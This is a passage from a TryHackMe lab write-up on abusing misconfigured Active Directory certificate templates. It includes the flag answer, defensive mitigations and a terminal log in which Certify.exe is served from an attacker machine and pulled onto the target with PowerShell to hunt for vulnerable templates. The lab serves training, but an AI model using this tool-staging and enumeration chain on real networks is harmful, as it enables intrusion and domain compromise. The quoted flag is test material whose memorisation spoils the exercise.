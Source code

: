 ![[Pasted image 20230216170432.png]]

What is the value of the flag stored on the Administrator's Desktop?

*THM{AD.Certs.Can.Get.You.DA}*

### Mitigations and Fixes

So how can you actually defend against these Certificate Template attacks?

There isn't really an easy answer, but there are some good defense techniques:

-   Review all the certificate templates in your organisation for poisonous parameter combinations. You can use [PSPKIAudit](https://github.com/GhostPack/PSPKIAudit) to assist with this.
-   In cases where poisonous parameter combinations cannot be avoided, make sure that there are stopgaps such as having to require Admin Approval before the certificate will be issued.
-   Update your playbooks. Most organisations' playbooks will include something along the lines of resetting the credentials for a compromised account. As pointed out here, that's not really going to remedy the persistent access. Therefore, reviewing certificates that were issued would be required and the malicious certificate will have to be revoked.

Answer the questions below

Read the above  

 Completed

### Conclusion

That's a wrap!

In this lab, we showed a possible method to exploit misconfigured AD certificate templates. As mentioned previously, there are several different potential toxic parameter combinations that you can look to exploit. Have a read through the SpecterOps whitepaper if you are interested in learning more. Since the lab contains a full Domain Controller and you now have DA access, you can look to configure your own certificate templates to play around with. Have fun!  

Answer the questions below

Read the above  

 Completed

```
another way

┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ ls
 Certify.exe                        README.md             SharpDPAPI.exe
'dotnet v3.5 compiled binaries'     RestrictedAdmin.exe   SharpDump.exe
'dotnet v4.5 compiled binaries'     Rubeus.exe            SharpRoast.exe
'dotnet v4.7.2 compiled binaries'   SafetyKatz.exe        SharpUp.exe
 Koh.exe                            Seatbelt.exe          SharpWMI.exe
 LockLess.exe                       SharpChrome.exe
                                                                                   
┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.221.143 - - [16/Feb/2023 17:16:23] "GET /Certify.exe HTTP/1.1" 200 -

C:\THMTools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\THMTools> iwr http://10.8.19.103:1337/Certify.exe -outfile C:\THMTools\Certify.exe


PS C:\THMTools> .\Certify.exe find /vulnerable

```